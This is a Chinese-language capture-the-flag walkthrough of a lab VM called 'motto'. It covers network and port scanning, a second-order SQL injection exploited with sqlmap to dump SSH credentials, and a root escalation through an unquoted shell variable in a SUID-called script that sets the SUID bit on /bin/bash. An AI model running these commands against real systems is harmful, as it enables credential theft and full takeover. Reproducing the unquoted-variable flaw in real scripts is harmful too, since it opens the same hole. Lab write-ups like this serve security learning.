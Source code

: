 ![image-20250802195125109](http://7r1UMPHK.github.io/image/20250802195134238.webp)

# 一、信息收集

## 1. 主机发现

使用 `arp-scan` 对本地网络进行扫描，识别出目标主机的 IP 地址。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ sudo arp-scan -l               
Interface: eth0, type: EN10MB, MAC: 00:0c:29:57:e5:45, IPv4: 192.168.205.128
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
...
192.168.205.237 08:00:27:C5:BA:A3       PCS Systemtechnik/Oracle VirtualBox virtual NIC
...
```

**目标主机IP：** `192.168.205.237`

## 2. 端口与服务扫描

使用 `nmap` 对目标主机进行全端口扫描，以识别开放的端口及运行的服务。

```bash
┌──(kali㉿kali)-[/mnt/hgfs/gx/x]
└─$ nmap -p- 192.168.205.237
Starting Nmap 7.95 ( https://nmap.org )
Nmap scan report for 192.168.205.237
Host is up (0.0016s latency).
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
9090/tcp open  zeus-admin
```

**扫描结果汇总：**

| 端口     | 状态 | 服务              | 推断                                           |
| :------- | :--- | :---------------- | :--------------------------------------------- |
| 22/tcp   | open | ssh               | 远程管理服务，可用于后续登录                   |
| 80/tcp   | open | http              | Web 服务，为一个 JavaScript 小游戏，未发现漏洞 |
| 9090/tcp | open | zeus-admin (http) | 另一个 Web 服务，是本次攻击的主要入口          |

# 二、初始访问与漏洞利用

## Web 渗透 (Port 9090): 二阶 SQL 注入

### 1. 漏洞发现

访问 `http://192.168.205.237:9090`，经过手动功能测试，发现该 Web 应用存在两个关键页面：
*   `/myinfo`：允许已认证用户修改自己的昵称 (`nickname`)。
*   `/mymottos`：显示用户的昵称和座右铭信息。

测试发现，在 `/myinfo` 页面提交的 `nickname` 参数未经过滤就存入了数据库。当用户访问 `/mymottos` 页面时，系统从数据库中读取该昵称并拼接到 SQL 查询中，从而触发了 SQL 注入。这是一个典型的**二阶 SQL 注入 (Second-Order SQL Injection)**。

### 2. sqlmap 漏洞利用

由于该注入需要先在一个页面（`/myinfo`）提交 Payload，然后在另一个页面（`/mymottos`）观察结果，因此需要使用 `sqlmap` 的 `--second-url` 参数进行自动化利用。同时，所有请求都需要有效的 JWT Cookie 进行身份验证，可以通过抓取一个合法的请求包并使用 `-r` 参数加载。

**`sqlmap` 利用步骤：**

1.  **抓取请求包**：使用 Burp Suite 等工具抓取一个从 `/myinfo` 页面修改昵称的 POST 请求，并保存为 `1.txt`。

2.  **获取数据库信息**：
    ```bash
    sqlmap -r 1.txt --batch --second-url "http://192.168.205.237:9090/mymottos" --dbs
    ```

3.  **获取表信息**：
    ```bash
    sqlmap -r 1.txt --batch --second-url "http://192.168.205.237:9090/mymottos" -D sql --tables
    ```

4.  **转储凭证数据**：从 `register_infos` 表中转储用户凭证。
    ```bash
    sqlmap -r 1.txt --batch --second-url "http://192.168.205.237:9090/mymottos" -D sql -T register_infos --dump
    ```

通过上述操作，成功获取到用户 `redbean` 的 SSH 登录凭证。

### 3. 获取初始访问 Shell

使用获取到的凭证，成功通过 SSH 登录到目标主机。

```bash
┌──(kali㉿kali)-[/tmp]
└─$ ssh redbean@192.168.205.237
...
redbean@motto:~$ id
uid=1001(redbean) gid=1001(redbean) groups=1001(redbean)
```

---

# 三、权限提升

## 1. SUID 文件发现与代码审计

登录后，首先搜索系统中的 SUID 文件以寻找提权向量，发现一个非标准的程序 `/opt/run_newsh`。

```bash
redbean@motto:~$ find / -perm -4000 -type f 2>/dev/null
...
/opt/run_newsh
...
```

在 `redbean` 的家目录中发现了一个 `.backup` 文件夹，其中包含了 `run_newsh.c` 和 `new.sh` 的源代码，且文件可读。

*   **`run_newsh.c`**：此 C 程序的功能是设置有效用户ID为 root (`setuid(0)`)，然后执行 `/opt/newsh` 脚本，并将命令行传入的第一个参数 (`argv[1]`) 传递给该脚本。
*   **`new.sh`**：脚本的核心逻辑如下：
    ```bash
    [ "$1" = "flag" ] && exit 2
    [ $1 = "flag" ] && chmod +s /bin/bash 
    ```

## 2. 漏洞分析：Shell 路径名扩展

上述脚本中存在一个经典的安全漏洞：
*   **第一行 `[ "$1" = "flag" ]`**：使用了双引号包裹变量 `$1`，这会将其视为一个完整的字符串。因此，`"f*g"` 不会等于 `"flag"`，检查会失败，脚本继续执行。
*   **第二行 `[ $1 = "flag" ]`**：**没有使用双引号**。当 `$1` 的值包含通配符（如 `*` 或 `?`）时，Shell 会在执行 `[` (test) 命令前进行**路径名扩展**。如果当前目录下存在一个名为 `flag` 的文件，那么 `f*g` 就会被扩展为 `flag`，导致 `[ flag = flag ]` 的判断为真。

## 3. 漏洞利用

利用此特性，可以通过以下步骤为 `/bin/bash` 添加 SUID 位：

1.  **切换到可写目录**：切换到 `/tmp` 目录，以确保我们有权限创建文件，并且避免干扰其他目录结构。
    ```bash
    redbean@motto:~$ cd /tmp
    ```

2.  **创建触发文件**：创建一个名为 `flag` 的文件，为路径名扩展提供匹配目标。
    ```bash
    redbean@motto:/tmp$ touch flag
    ```

3.  **执行SUID程序**：使用一个能匹配到 `flag` 文件的通配符（如 `f*g`）作为参数执行 `/opt/run_newsh`。
    ```bash
    redbean@motto:/tmp$ /opt/run_newsh "f*g"
    ```
    此命令成功绕过了第一行检查，并在第二行检查时触发了路径名扩展，执行了 `chmod +s /bin/bash`。

4.  **验证并获取 Root Shell**：检查 `/bin/bash` 的权限，确认已设置 SUID 位。然后使用 `-p` 参数启动 `bash` 以保留 `euid`（有效用户ID）为 root。
    ```bash
    redbean@motto:/tmp$ ls -al /bin/bash
    -rwsr-xr-x 1 root root 1168776 ... /bin/bash
    
    redbean@motto:/tmp$ bash -p
    bash-5.0# id
    uid=1001(redbean) gid=1001(redbean) euid=0(root) groups=1001(redbean)
    bash-5.0# whoami
    root
    ```
    成功获取 root 权限的 shell。

---

# 四、夺取旗帜

获取 root 权限后，读取位于用户家目录和 root 目录下的旗帜文件。

```bash
root@motto:/# cat /home/redbean/user.txt
flag{user-flag-placeholder-for-motto-user}

root@motto:/# cat /root/root.txt
flag{root-flag-placeholder-for-motto-root}
```